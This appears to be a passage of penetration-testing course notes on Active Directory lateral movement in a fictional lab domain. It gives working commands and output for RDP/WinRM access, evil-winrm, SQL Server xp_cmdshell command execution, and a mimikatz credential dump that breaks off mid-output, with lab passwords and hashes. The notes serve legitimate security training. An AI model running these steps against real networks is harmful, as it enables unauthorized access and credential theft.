









- [Extras](#extras)
  - [Privileged Access](#privileged-access)
    - [RDP](#rdp)
      - [Enumerating the Remote Desktop Users Group](#enumerating-the-remote-desktop-users-group)
      - [Checking Remote Access Rights](#checking-remote-access-rights)
    - [WinRM](#winrm)
      - [Enumerating the Remote Management Users Group](#enumerating-the-remote-management-users-group)
      - [Using the Cypher Query in BloodHound](#using-the-cypher-query-in-bloodhound)
      - [Establishing WinRM Session from Windows](#establishing-winrm-session-from-windows)
      - [Connecting to a Target with Evil-WinRM](#connecting-to-a-target-with-evil-winrm)
    - [SQL Server Admin](#sql-server-admin)
      - [Using a Custom Cypher Query](#using-a-custom-cypher-query)
      - [Enumerating MSSQL with PowerUpSQL](#enumerating-mssql-with-powerupsql)
      - [mssqlclient.py](#mssqlclientpy)
  - [Kerberos "Double Hop" Problem](#kerberos-double-hop-problem)
    - [Background](#background)
    - [Workarounds](#workarounds)
      - [#1 PSCredential Object](#1-pscredential-object)
      - [#2 Register PSSession Configuration](#2-register-pssession-configuration)
  - [Bleeding Edge Vulnerabilities](#bleeding-edge-vulnerabilities)
    - [NoPac (_SamAccountName Spoofing_)](#nopac-samaccountname-spoofing)
      - [Scanning for NoPac](#scanning-for-nopac)
      - [Running NoPac \& Getting a Shell](#running-nopac--getting-a-shell)
      - [Confirming the Location of Saved Tickets](#confirming-the-location-of-saved-tickets)
      - [Using noPac to DCSync the Built-in Administrator Account](#using-nopac-to-dcsync-the-built-in-administrator-account)
    - [Windows Defender \& SMBEXEC.py Considerations](#windows-defender--smbexecpy-considerations)
    - [PrintNightmare](#printnightmare)
      - [Enumerating for MS-RPRN](#enumerating-for-ms-rprn)
      - [Generating a DLL Payload](#generating-a-dll-payload)
      - [Creating a Share with smbserver.py](#creating-a-share-with-smbserverpy)
      - [Configuring \& Starting MSF multi/handler](#configuring--starting-msf-multihandler)
      - [Running the Exploit](#running-the-exploit)
    - [PetitPotam (_MS-EFSRPC_)](#petitpotam-ms-efsrpc)
      - [Starting ntlmrelayx.py](#starting-ntlmrelayxpy)
      - [Running PetitPotam.py](#running-petitpotampy)
      - [Catching Base64 Encoded Certificate for DC01](#catching-base64-encoded-certificate-for-dc01)
      - [Requesting a TGT using gettgtpkinit.py](#requesting-a-tgt-using-gettgtpkinitpy)
      - [Setting the KRB5CCNAME Environment Variable](#setting-the-krb5ccname-environment-variable)
      - [Using DC TGT to DCSync](#using-dc-tgt-to-dcsync)
      - [Confirming Admin Access to the DC](#confirming-admin-access-to-the-dc)
      - [Submitting a TGS Request for Yourself using getnthash.py](#submitting-a-tgs-request-for-yourself-using-getnthashpy)
      - [Using DC NTLM Hash to DCSync](#using-dc-ntlm-hash-to-dcsync)
      - [Requesting TGT and Performing PTT with DC01$ Machine Account](#requesting-tgt-and-performing-ptt-with-dc01-machine-account)
      - [Confirming the Ticket is in Memory](#confirming-the-ticket-is-in-memory)
      - [Performing DCSync with Mimikatz](#performing-dcsync-with-mimikatz)
  - [Miscellaneous Misconfigurations](#miscellaneous-misconfigurations)
    - [Exchange Related Group Membership](#exchange-related-group-membership)
    - [PrivExchange](#privexchange)
    - [Printer Bug](#printer-bug)
    - [MS14-068](#ms14-068)
    - [Sniffing LDAP Credentials](#sniffing-ldap-credentials)
    - [Enumerating DNS Records](#enumerating-dns-records)
    - [Password in Description Field](#password-in-description-field)
    - [PASSWD\_NOTREQD Field](#passwd_notreqd-field)
    - [Credentials in SMB Shares and SYSVOL Scripts](#credentials-in-smb-shares-and-sysvol-scripts)
    - [Group Policy Preference (_GPP_) Passwords](#group-policy-preference-gpp-passwords)
    - [ASREPRoasting](#asreproasting)
    - [Group Policy Object (_GPO_) Abuse](#group-policy-object-gpo-abuse)

---

# Extras

## Privileged Access

Once you gain a foothold in the domain, your goal shifts to advancing your position further by moving laterally or vertically to obtain access to other hosts, and eventually achieve domain compromise or some other goal, depending on the aim of the assessment. To achieve this, there are several ways you can move laterally. Typically, if you take over an account with local admin rights over a host, or set of hosts, you can perform a PtH attack to authenticate via the SMB protocol.

### RDP

Typically, if you have control of a local admin user on a given machine, you will be able to access it via RDP. Sometimes, you will obtain a foothold with a user that does not have local admin rights anywhere, but does have the rights to RDP into one or more machines. This access could be extremely useful to you as you could use the host position to:

- launch further attacks
- you may be able to escalate privileges and obtain credentials for a higher privileged user
- you may be able to pillage the host for sensitive data or credentials

#### Enumerating the Remote Desktop Users Group

Using PowerView, you could use the Get-NetLocalGroupMember function to begin enumerating members of the Remote Desktop Users group on a given host.

```powershell
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN
```

From the information above, you can see that all Domain Users can RDP to this host. It is common to see this on Remote Desktop Services hosts or hosts used as jump hosts. This type of server could be heavily used, and you could potentially find sensitive data that could be used to further your access, or you may find a local privilege escalation vector that could lead to local admin access and credential theft/account takeover for a user with more privileges in the domain. Typically the first thing to check in BloodHound:

"Does the Domain Users group have local admin rights or execution rights over one or more hosts?"



#### Checking Remote Access Rights

If you gain control over a user through an attack such as LLMNR/NBT-NS Response Spoofing or Kerberoasting, you can search for the username in BloodHound to check what type of remote access rights they have either directly or inherited via group membership under Execution Rights on the Node Info tab.



You could also check the Analysis tab and run the pre-built queries "Find Workstations where Domain Users can RDP" or "Find Server where Domain Users can RDP". There are other ways to enumerate this information, but BloodHound is a powerful tool that can help you narrow down these types of access rights quickly and accurately, which is hugely beneficial to you as pentesters under time constraints for the assessment period.

### WinRM

Like RDP, you may find that either a specific user or an entire group has WinRM access to one or more hosts. This could also be low-privileged access that you could use to hunt for sensitive data or attempt to escalate privileges or may result in local admin access, which could potentially be leveraged to further your access. You can again use the PowerView function Get-NetLocalGroupMember to the Remote Management Users group. This group has existed since the days of Windows 8 / Windows Server 2012 to enable WinRM access without granting local admin rights.

#### Enumerating the Remote Management Users Group

```powershell
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

#### Using the Cypher Query in BloodHound

You can also utilize this custom Cypher query in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the Raw Query box at the bottom of the screen and hitting enter.

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```



You could also add this query as a custom query to your BloodHound installation, so it's always available to you.



#### Establishing WinRM Session from Windows

You can use the Enter-PSSession cmdlet using PowerShell from a Windows host.

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

#### Connecting to a Target with Evil-WinRM

From your Linux attack host, you can use the tool evil-winrm to connect.

```bash
d41y@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend

Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\forend.INLANEFREIGHT\Documents> hostname
ACADEMY-EA-MS01
```

### SQL Server Admin

More often than not, you will encounter SQL servers in the environments you face. It is common to find users and service accounts set up with sysadmin privileges on a given SQL server instance. You may obtain credentials for an account with this access via Kerberoasting or other such as LLMNR/NBT-NS Response Spoofing or password spraying. Another way that you may find SQL server credentials is using the tool Snaffler to find web.config or other types of configuration files that contain SQL server connection strings.

#### Using a Custom Cypher Query

BloodHound, once again, is a great bet for finding this type of access via the SQLAdmin edge. You can check for SQL Admin Rights in the Node Info tab for a given user or use this custom Cypher query to search:

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

You can use your ACL rights to authenticate, change the password and then authenticate with the target using a tool such as [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet).

#### Enumerating MSSQL with PowerUpSQL

```powershell
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

You could then authenticate against the remote SQL server host and run custom queries or OS commands.

```powershell
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```

#### mssqlclient.py

You can also authenticate from your Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) from the Impacket toolkit.

```bash
d41y@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

Once connected, you could type ```help``` to see what commands are available to you.

```bash
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

You could then choose ```enable_xp_cmdshell``` to enable the xp_cmdshell stored procedure which allows for one to execute OS commands via the database if the account in question has the proper access rights.

```bash
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

Finally, you can run commands in the format ```xp_cmdshell <command>```. Here you can enumerate the rights that your user has on the system and see that you have SeImpersonatePrivilege, which can be leveraged in combination with a tool such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato) to escalate to SYSTEM level privileges, depending on the target host, and use this access to continue toward your goal.

```bash
xp_cmdshell whoami /priv
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

PRIVILEGES INFORMATION                                                             

----------------------                                                             

NULL                                                                               

Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   

SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   

SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    

SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    

SeImpersonatePrivilege        Impersonate a client after authentication Enabled    

SeCreateGlobalPrivilege       Create global objects                     Enabled    

SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   

NULL
```

## Kerberos "Double Hop" Problem

### Background

The "Double Hop" problem often occurs when using WinRM/PowerShell since the default authentication mechanism only provides a ticket to access a specific resource. This will likely cause issues when trying to perform lateral movement or even access file shares from the remote shell. In this situation, the user account being used has the rights to perform an action but is denied access. The most common way to get shells is by attacking an application on the target host or using credentials and a tool such as PSExec. In both of these scenarios, the initial authentication was likely performed over SMB or LDAP, which means the user's NTLM hash would be stored in memory. Sometimes you have a set of credentials and are restricted to a particular method of authentication, such as WinRM, or would prefer to use WinRM for any number of reasons.

The crux of the issue is that when using WinRM to authenticate over two or more connections, the user's password is never cached as part of their login. If you use Mimikatz to look at the session, you'll see that all credentials are blank. As stated previously, when you use Kerberos to establish a remote session, you are not using a password for authentication. When password authentication is used, with PSExec, for example, that NTLM hash is stored in the session, so when you go to access another resource, the machine can pull the hash from memory and authenticate you.

```powershell
PS C:\htb> PS C:\Users\ben.INLANEFREIGHT> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 45177 (00000000:0000b079)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 1284107 (00000000:0013980b)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70669 (00000000:0001140d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 45178 (00000000:0000b07a)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 44190 (00000000:0000ac9e)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               :
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1284140 (00000000:0013982c)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
